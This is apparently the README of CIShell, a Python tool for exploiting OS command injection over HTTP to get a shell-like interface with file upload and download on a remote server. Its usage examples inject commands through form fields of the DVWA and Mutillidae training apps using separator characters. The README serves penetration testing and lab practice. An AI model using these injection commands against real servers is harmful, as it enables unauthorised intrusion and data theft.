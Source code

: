 # CIShell 

**CIShell** (**C**ommand **I**njection **Shell**) is a lightweight OS command injection exploitation tool.

It emulates an 'interactive'-like shell with below features:
 - Tab completion for remote directory/file name.
 - Navigate remote directory path with `cd` command.
 - Download/Upload file with `get`/`put` command.
 - Navigate command history with arrow key (up/down).

It's intended to provide a more user-friendly environment to interact with remote server via HTTP OS command injection in case interactive shell is not straightforward to obtain.

Python version 2.7.x is required to run this program on Linux and Mac OS X.

Please take a look at below projects for features not available in this tool:
 - [commix](https://github.com/commixproject/commix)
 - [weevely](https://github.com/epinna/weevely3)
 - [pyshell](https://github.com/praetorian-inc/pyshell)

## Usage
To get a list of all options:
    
`python cishell.py -h`

Running against DVWA:

`python cishell.py -u "http://x.x.x.x/dvwa/vulnerabilities/exec/index.php" -p "ip=%3bINJECT_HERE&submit=submit" -H "Cookie: security=low; PHPSESSID=66e655868605ee08d581fb5a2fbecd89"`

Running against Mutillidae:

`python cishell.py -u "http://x.x.x.x/mutillidae/index.php?page=dns-lookup.php" -p "target_host=127.0.0.1 | INJECT_HERE&dns-lookup-php-submit-button=Lookup+DNS"`

![screencast](cishell.gif)

## Known Issues
 - Mac OS X ships with libedit instead of GNU readline and may cause issue with command history navigation.

